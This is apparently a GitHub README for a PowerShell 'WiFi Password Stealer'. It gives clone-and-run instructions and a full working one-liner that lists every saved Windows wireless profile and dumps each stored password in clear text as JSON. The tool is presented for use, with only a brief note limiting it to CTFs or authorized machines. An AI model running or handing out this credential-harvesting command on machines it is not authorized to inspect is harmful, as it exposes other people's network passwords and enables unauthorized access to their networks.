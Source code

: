 # WiFi Password Stealer in PowerShell

This script is made to retrieve **STORED** wifi passwords on a Windows computer. It has been tested on FR and EN computers, you're free to edit the script in order to make it work with your language.

## Prerequisites

- Powershell 5.x / 7.x (Tested on both)

## Usage

1. Clone the repo : 

    ```PowerShell
    > git clone https://github.com/BassoNicolas/Powershell-WiFi-PasswordStealer
    > cd Powershell-WiFi-PasswordStealer
    > . 'WiFiStealer.ps1'  # Do not forget the dot.

2. Or you can simply run it in one-line

    ```Powershell
    [Console]::InputEncoding = [System.Text.Encoding]::UTF8; [Console]::OutputEncoding = [System.Text.Encoding]::UTF8; $c={foreach($l in (netsh wlan show profiles).Split([System.Environment]::NewLine,[System.StringSplitOptions]::RemoveEmptyEntries)){if($l -match "Profil Tous les utilisateurs" -or $l -match "All User Profile"){$f=($l -Split ": ")[-1].Trim();$g=netsh wlan show profile "$f" key=clear;$h="";foreach($m in $g.Split([System.Environment]::NewLine,[System.StringSplitOptions]::RemoveEmptyEntries)){if($m -match "Contenu de la clé" -or $m -match "Key Content"){$h=($m -Split ": ")[-1].Trim();break;}}New-Object PSObject -Property @{Name=$f;Password=$h}}}};Write-Output (&$c)|ConvertTo-Json -Depth 100|ConvertFrom-Json
    ```
    
## License

lol

## Note

This is **not** a wifi "cracker".
Use it during CTFs or on authorized machines.